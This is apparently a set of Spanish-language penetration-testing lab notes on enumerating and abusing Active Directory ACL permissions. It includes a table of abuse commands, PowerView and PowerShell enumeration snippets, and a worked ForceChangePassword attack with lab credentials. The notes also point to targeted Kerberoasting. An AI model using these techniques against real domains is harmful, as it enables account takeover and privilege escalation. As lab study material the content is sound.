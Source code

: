 #ACL 
## Enumeración ACL
Las ACEs nos pueden servir para establecer persistencia, escalar privilegios o realizar moviemientos laterales, además de que son muy difíciles de detectar por AV o escáneres de vulnerabilidades. Algunas de las ACEs más importantes las podemos detectar con herramientas como `BloodHound` y abusarlas con `PowerView`, entre otras herramientas posibles
Tabla de ACEs y como se pueden explotar

## Tabla explotación

| **ACL (Permiso/ACE)**   | **Técnica/Herramienta de Abuso**                   | **Descripción del Abuso**                             |
| ----------------------- | -------------------------------------------------- | ----------------------------------------------------- |
| **ForceChangePassword** | `Set-DomainUserPassword`                           | Cambiar la contraseña de un usuario sin conocerla.    |
| **Add Member**          | `Add-DomainGroupMember`                            | Agregar usuarios a grupos, elevando privilegios.      |
| **GenericAll**          | `Set-DomainUserPassword` / `Add-DomainGroupMember` | Control total sobre el objeto (contraseñas/grupos).   |
| **GenericWrite**        | `Set-DomainObject`                                 | Modificar atributos de un objeto de AD.               |
| **WriteOwner**          | `Set-DomainObjectOwner`                            | Cambiar el dueño de un objeto, obteniendo control.    |
| **WriteDACL**           | `Add-DomainObjectACL`                              | Modificar permisos del objeto (ACL).                  |
| **AllExtendedRights**   | `Set-DomainUserPassword` / `Add-DomainGroupMember` | Ejercer derechos avanzados (restablecer contraseñas). |
| **Addself**             | `Add-DomainGroupMember`                            | Agregarse a sí mismo a grupos con privilegios altos.  |
![[Pasted image 20250108092039.png]]
## Enumeración ACL

Es complicado hacerlo de forma manual y genera gran cantidad de información irrelevante (p. ej: `Find-InterestingDomainAcl` genera demasiada información). 
### Búsqueda dirigida - `Get-DomainObjectACL` (PowerView)
Se realiza una búsqueda sobre usuarios sobre los que tenemos el control (supongamos `wley`) y se identifican otros objetos sobre los que este usuario tiene permisos. Se añade la flag `ResolveGUIds` para que los permisos aparezcan en formato más amigable para el usuario
```powershell
$sid = Convert-NameToSid wley 
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
Si no tuviéramos `PowerView`, aún podríamos obtener un resultado similar escribiendo lo siguiente:
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt 
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```
### Sharphound
Es más rápido, visual y potente para auditorías de Active Directory, especialmente para **identificar rutas de escalación de privilegios y relaciones complejas**.
## Ejemplos de abuso de ACEs
### Cambio de contraseña
**Permiso  `User-Force-Change-Password` -> `Set-DomainUserPassword`**
Supongamos que un usuario (`wley`) tiene un permiso `User-Force-Change-Password` sobre otro usuario (`damundsen`)
- Creamos objeto PSCredential para `wley`  con sus credenciales (`$credWley`)
	```powershell
	$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
	$CredWley = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
	```
- Creamos otro objeto tipo  `SecureString` para `damundsen` con las credenciales que queramos (`$passDam`)
	```powershell
	$passDam = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
 
	```
- Cambiamos la contraseña de usuario con `Set-DomainUsePassword` (no haría falta pasar credenciales si estuviéramos autenticados como `wley`)
	```powershell
	Set-DomainUserPassword -Identity damundsen -AccountPassword $passDam -Credential $CredWley -Verbose
	```
### Kerberoasting dirigido
**Permiso  `WriteProperty` | `Self` -> `Set-DomainObject`**
Se crea un SPN falso asociado a la cuenta de usuario que queramos comprometer para craquear posteriormente. [[Kerberoasting#Kerberoasting dirigido| Revisar aquí]]

### DCSync